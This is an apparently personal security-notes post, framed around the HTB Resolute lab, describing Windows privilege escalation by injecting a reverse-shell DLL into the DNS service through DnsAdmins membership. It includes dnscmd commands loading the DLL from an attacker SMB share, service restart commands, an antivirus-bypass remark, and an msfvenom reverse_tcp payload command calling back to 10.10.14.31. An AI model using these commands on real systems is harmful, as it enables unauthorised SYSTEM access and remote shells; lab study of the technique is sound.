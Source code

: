 ```yaml
---
layout: post
title: Malicious DLL Injection
description: Malicious DLL Injection
summary: Malicious DLL Injection
tags: [dns,privesc,windows]
minute: 1
---
```

## Overview
If low privileged user is a member of `DnsAdmins`, attacker can inject a malicuous DLL in DNS service and achieve privilege escalation.

## Environment Setup and Requirements
* Low privileged user must be a member of `DnsAdmins`
* Low privileged user must be able to start and stop DNS service
* Separate attacker windows machine for compiling DLL

## Steps
* Download this [DLL DNS plugin](https://github.com/dim0x69/dns-exe-persistance) and open it in attacker windows machine
* Get this [reverse shell](https://github.com/tudorthe1ntruder/reverse-shell-poc/blob/master/rs.c), update it with your IP/PORT settings, and put it under sources. Ensure to add `#include "stdafx.h"` at the top.

![](/spindel/assets/DNSAdmin%20Malicious%20DLL%20Injection/95AB122B-C8B0-41F0-952F-B4399E09CA94.png)

* Create this header file

![](/spindel/assets/DNSAdmin%20Malicious%20DLL%20Injection/7E830899-6043-4556-8937-60E2BAA92DC1.png)

* Update the main code. These changes below will create a new thread which help prevent crashing the DNS service.

![](/spindel/assets/DNSAdmin%20Malicious%20DLL%20Injection/FD577ECA-AAFC-4644-A205-6CEEB0CD09EA.png)

* Change to "Release" and start building

![](/spindel/assets/DNSAdmin%20Malicious%20DLL%20Injection/F49524CA-53B0-402B-8A2D-3BC0AFEE46B4.png)

* DLL should be generated similar to this path. Transfer it to victim machine.

![](/spindel/assets/DNSAdmin%20Malicious%20DLL%20Injection/B5913B2A-E0A5-439D-ACCC-8BEFCAA2D9FE.png)

* Open netcat listener on attacker
* Inside victim, load the DLL into DNS service and restart DNS to activate it. In this step, we are loading the DLL from attacker share to bypass some AV.

```powershell
# load
dnscmd /config /serverlevelplugindll \\10.10.14.31\share\Win32Project1.dll

# verify
dnscmd /config /serverlevelplugindll \\10.10.14.31\share\Win32Project1.dll

# stop dns
cmd /c sc stop dns

# start dns
cmd /c sc start dns
```

## Troubleshooting
* For some reason, DLL generated by msfvenom doesn't work. Seems its crashing the DNS service.

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.31 LPORT=4444 -f dll > evil.dll
```

* If you encounter MFC errors during build, install the MFC libraries from Visual Studio Installer

![](/spindel/assets/DNSAdmin%20Malicious%20DLL%20Injection/91D4854E-486D-411A-9732-E40C0FAACD16.png)

* If you encounter `revshell: must return a value`, add a return value at the end of `rev.cpp`

```cpp
// [..redacted...]
	WSACleanup();
	return 0;
}
```

## References
* HTB Resolute
* [Escalating Privileges with DNSAdmins Group | by Nairuz Abulhul | R3d Buck3T | Medium](https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b)
* [From DnsAdmins to SYSTEM to Domain Compromise](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise#abuse-dns-with-dnscmd)
